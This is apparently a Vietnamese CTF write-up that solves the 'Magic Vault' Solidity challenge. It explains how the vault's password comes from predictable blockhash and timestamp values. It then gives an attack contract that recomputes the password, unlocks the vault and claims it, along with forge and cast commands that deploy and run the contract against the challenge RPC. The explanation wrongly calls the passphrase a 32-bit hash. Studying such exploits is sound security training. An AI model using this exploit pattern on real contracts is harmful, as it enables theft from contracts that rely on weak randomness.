

# Magic Vault

Mô tả challenge:


Trong challenge này được cung cấp một tệp `Setup.sol` và một `challenge` contract khác, trong trường hợp này là `Vault.sol. Xem xét nó:


`Setup.sol`

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Vault} from "./Vault.sol";

contract Setup {
    Vault public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Vault();
    }

    function isSolved() public view returns (bool) {
        return TARGET.mapHolder() != address(TARGET);
    }
}
```

`Vault.sol`

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Vault {
    struct Map {
        address holder;
    }

    Map map;
    address public owner;
    bytes32 private passphrase;
    uint256 public nonce;
    bool public isUnlocked;

    constructor() {
        owner = msg.sender;
        passphrase = bytes32(keccak256(abi.encodePacked(uint256(blockhash(block.timestamp)))));
        map = Map(address(this));
    }

    function mapHolder() public view returns (address) {
        return map.holder;
    }

    function claimContent() public {
        require(isUnlocked);
        map.holder = msg.sender;
    }

    function unlock(bytes16 _password) public {
        uint128 _secretKey = uint128(bytes16(_magicPassword()) >> 64);
        uint128 _input = uint128(_password);
        require(_input != _secretKey, "Case 1 failed");
        require(uint64(_input) == _secretKey, "Case 2 failed");
        require(uint64(bytes8(_password)) == uint64(uint160(owner)), "Case 3 failed");
        isUnlocked = true;
    }

    function _generateKey(uint256 _reductor) private returns (uint256 ret) {
        ret = uint256(keccak256(abi.encodePacked(uint256(blockhash(block.number - _reductor)) + nonce)));
        nonce++;
    }

    function _magicPassword() private returns (bytes8) {
        uint256 _key1 = _generateKey(block.timestamp % 2 + 1);
        uint128 _key2 = uint128(_generateKey(2));
        bytes8 _secret = bytes8(bytes16(uint128(uint128(bytes16(bytes32(uint256(uint256(passphrase) ^ _key1)))) ^ _key2)));
        return (_secret >> 32 | _secret << 16);
    }
}
```

Đầu tiên thấy một structure có tên là `Map` được tạo ra có một member address-type được gọi là `holder`.

Tiếp theo thấy một vài biến được khai báo:

- `owner` là `msg.sender`, đây là địa chỉ đang triển khai constract.

- `passphrase` là giá trị private hash 32 bit.

- `nonce` được sử dụng làm bộ đếm sau này trong chương trình.

- `isUnlocked` như mong đợi, có nghĩa là hiển thị rương đã được mở khóa hay chưa.

Sau đó thấy một hàm có tên là `constructor()`:

- Hàm này được thực thi khi triển khai contract ban đầu và nó sẽ tạo `passphrase` bằng cách hash `blockhash` của `block.timestamp` và đặt map's `holder` thành địa chỉ của contract.

Hàm `mapHolder` trả về địa chỉ của map holder hiện tại.

Hàm `claimContent` sẽ cho phép bất kỳ địa chỉ nào yêu cầu vault miễn là `isUnlocked()` được đặt thành true.

Hàm `unlock` lấy `_password` 16 byte và sau đó thực hiện các thao tác sau:

- Đầu tiên, hàm tạo ra một số nguyên 128 bit, `_secretKey`, bằng 64 bit đầu tiên của `_magicPassword()`. Sau đó, hàm kiểm tra xem biểu diễn số nguyên 128 bit của `_password` đầu vào có bằng `_secretKey` không. Nếu chúng bằng nhau, hàm sẽ báo lỗi, nếu không, hàm sẽ tiếp tục.

- Thứ hai, hàm xác minh xem 64 bit ít quan trọng nhất của `_password` (được hiểu là một số nguyên) có bằng `_secretKey` không. Nếu không, hàm sẽ báo lỗi.

- Thứ ba, hàm kiểm tra xem 64 bit ít quan trọng nhất của `_password` (được hiểu là một mảng byte) có khớp với 64 bit ít quan trọng nhất của địa chỉ `owner` không. Nếu không, hàm sẽ báo lỗi.

Hàm `_generateKey` lấy một tham số `_reductor` duy nhất làm đầu vào. Hàm này sử dụng tham số này để xác định giá trị hash của block trước đó bằng cách trừ `_reductor` cho số khối hiện tại.

- Sau đó, giá trị block-hash và giá trị `nonce` hiện tại được packed lại với nhau và hash bằng `keccak256`. Giá trị băm kết quả sau đó được chuyển đổi thành số nguyên 256 bit và trả về dưới dạng khóa được tạo.

- Sau đó, `nonce` được tăng lên, đảm bảo tạo ra một khóa mới mỗi khi hàm này được gọi.

Hàm `_magicPassword` tạo ra một mật khẩu được sử dụng trong một phần của quá trình mở khóa vault.

- Hai khóa, `_key1` và `_key2`, được tạo ra.

- `_key1` được tạo ra bằng cách gọi `_generateKey()` với giá trị `_reductor` được xác định bởi block timestamp hiện tại modulo 2 cộng với 1.

- `_key2` được tạo ra bằng cách gọi `_generateKey(2)`.

- Sau đó, các key này được sử dụng để thực hiện một số thao tác liên quan đến `passphrase`:

- `passphrase` được XOR với `_key1`.

- Giá trị kết quả được chuyển đổi thành một mảng `bytes32`, sau đó thành một mảng `bytes16`, sau đó thành một số nguyên 128 bit.

- Sau đó, số nguyên này được XOR với `_key2` và giá trị kết quả được chuyển đổi thành một mảng `bytes16`, sau đó thành một mảng `bytes8`.

- Cuối cùng, một phép dịch chuyển bit sang phải là 32 và một phép dịch chuyển trái là 16 được thực hiện trên giá trị `_secret`. Sau đó, kết quả này được trả về dưới dạng magic password.

## Attack

Bây giờ, khi đã hiểu mọi thứ ở đây hoạt động như thế nào, nghĩ cách mở khóa vault và lấy flag.

Tính bảo mật của `toàn bộ` thứ này phụ thuộc vào timestamp của block mà vault này được tạo ra.

- Điều này là do `passphrase` hoặc timestamp của block genesis được sử dụng khi tạo khóa cho password và chính password.

Vì vậy có thể tiếp tục và lấy timestamp của block genesis và sử dụng nó để tìm ra `passphrase` bằng cách sử dụng lệnh `cast`, một số trình chuyển đổi trực tuyến và IDE solidity.

Lấy timestamp của block genesis:

```
└─$ cast age 1 --rpc-url http://139.59.188.199:32561/rpc
Sun Dec 17 17:30:43 2023
```

Sau đó, có thể chuyển đổi nó thành timestamp Unix online:



Sau đó có thể chạy nó thông qua cùng một logic đã thấy trong `constructor()` để tìm ra passphrase.

Đây là chương trình sử dụng trong RemixIDE:

```
pragma solidity ^0.8.17;
contract findPassphrase {
bytes32 public passphrase = bytes32(keccak256(abi.encodePacked(uint256(blockhash(1702814443)))));
}
```

Từ đây, chỉ cần compile contract và deploy nó, sẽ thấy passphrase:


Bây giờ chỉ cần tạo một smart contract sử dụng passphrase này để mở khóa vault.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;// Importing the Vault contract to interact with it.
import "./Vault.sol";
contract attack {
    // Storing the instance of the Vault contract we want to interact with.
    Vault public vault;
    
    // Storing the passphrase for unlocking the vault.
    bytes32 public passphrase;
    
    // Nonce used for key generation.
    uint256 nonce;
    // Constructor that sets the address of the Vault and passphrase.
    constructor(address _vault, bytes32 _passphrase) {
        vault = Vault(_vault);
        passphrase = _passphrase;
    }
    // Function for generating a 'magic' password, used for unlocking the vault.
    function _magicPassword() private returns (bytes8) {
        // Generating two keys with different reductors.
        uint256 _key1 = _generateKey((block.timestamp % 2) + 1);
        uint128 _key2 = uint128(_generateKey(2));
        // XORing the passphrase with _key1, and then XORing that result with _key2.
        bytes8 _secret = bytes8(bytes16(uint128(uint128(bytes16(bytes32(uint256(uint256(passphrase) ^ _key1)))) ^ _key2)));
        // Returning the secret after some bit manipulation.
        return ((_secret >> 32) | (_secret << 16));
    }
    // Function to generate a key, uses nonce and blockhash.
    function _generateKey(uint256 _reductor) private returns (uint256 ret) {
        // Creating a key based on the hash of a previous block and the current nonce.
        ret = uint256(keccak256(abi.encodePacked(uint256(blockhash(block.number - _reductor)) + nonce)));
        // Incrementing the nonce for the next key generation.
        nonce++;
    }
    // Public function to unlock the vault.
    function unlock() public {
        // Setting the nonce to be the same as the Vault's nonce.
        nonce = vault.nonce();
        // Generating the 'magic' password and extracting the most significant bits.
        uint128 _secretKey = uint128(bytes16(_magicPassword()) >> 64);
        // Getting the least significant bits of the owner's address.
        uint128 _owner = uint128(uint64(uint160(vault.owner())));
        // Unlocking the vault with the concatenated owner and secret key.
        vault.unlock(bytes16((_owner << 64) | _secretKey));
        // Claiming the content of the Vault.
        vault.claimContent();
    }
}
```

Đảm bảo rằng cả `attack.sol` và `Vault.sol` đều nằm trong cùng thư mục `/src` đang compile project.

Tiếp theo, cần compile project và deploy nó đến target, đảm bảo truyền vào passphrase đã lấy được từ trước đó:

```
└─$ forge create src/attack.sol:attack --rpc-url http://<IP and Port>/rpc --private-key $PrivateKey --constructor-args $TargetAddress $Passphrase
```

Nếu mọi việc diễn ra suôn sẻ, sẽ deploy contract thành công và nhận được address đã deploy contract.


Có thể sử dụng address này để gọi hàm `unlock` đã tạo.

```
└─$ cast send $DeployedToAddress "unlock()" --rpc-url http://<IP and Port>/rpc --private-key $PrivateKey
```


Sau đó, có thể xem nó có hoạt động hay không bằng cách hỏi address target xem map holder là ai.

```
└─$ cast call $TargetAddress "mapHolder()" --rpc-url http://<IP and Port>/rpc --private-key $PrivateKey
```

Nếu mọi thứ đều ổn, nó sẽ giống với địa chỉ mà contract được deployed to:


Có thể xác minh kết quả bằng cách hỏi address setup xem đã solve challenge chưa:

```
└─$ cast call $SetupAddress "isSolved()" --rpc-url http://<IP and Port>/rpc
```

Nếu kết quả trả về là 1 thay vì 0 thì có nghĩa là đã solve được problem


và có thể truy cập endpoint /flag để lấy flag


